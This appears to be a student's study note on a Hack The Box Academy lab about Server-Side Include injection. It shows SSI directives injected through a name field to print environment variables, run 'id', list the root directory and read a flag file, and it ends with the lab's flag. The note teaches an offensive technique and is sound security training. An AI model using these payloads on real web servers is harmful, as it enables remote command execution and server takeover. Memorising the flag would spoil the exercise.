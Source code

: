 ```yaml
---
sticker: lucide//server-off
---
```


# Exploiting SSI Injection

Now that we have discussed how SSI works in the previous section, let us discuss how to exploit SSI injection.

***

### Exploitation

Let us take a look at our sample web application. We are greeted by a simple form asking for our name:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_1.png)

If we enter our name, we are redirected to `/page.shtml`, which displays some general information:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_2.png)

We can guess that the page supports SSI based on the file extension. If our username is inserted into the page without prior sanitization, it might be vulnerable to SSI injection. Let us confirm this by providing a username of `<!--#printenv -->`. This results in the following page:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_3.png)

As we can see, the directive is executed, and the environment variables are printed. Thus, we have successfully confirmed an SSI injection vulnerability. Let us confirm that we can execute arbitrary commands using the `exec` directive by providing the following username: `<!--#exec cmd="id" -->`

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssi/ssi_4.png)

The server successfully executed our injected command. This enables us to take over the web server fully.

## Question

!\[]\(Pasted image 20250212142109.png)

We can use the following payload to achieve RCE:

```
<!--#exec cmd="id" -->
```

!\[]\(Pasted image 20250212142217.png)

Nice, let's read `/` directory:

```
<!--#exec cmd="ls /" -->
```

!\[]\(Pasted image 20250212142245.png)

Found our flag, let's read it:

```
<!--#exec cmd="cat /flag.txt" -->
```

!\[]\(Pasted image 20250212142315.png)

Flag is:

```
HTB{81e5d8e80eec8e961a31229e4a5e737e}
```
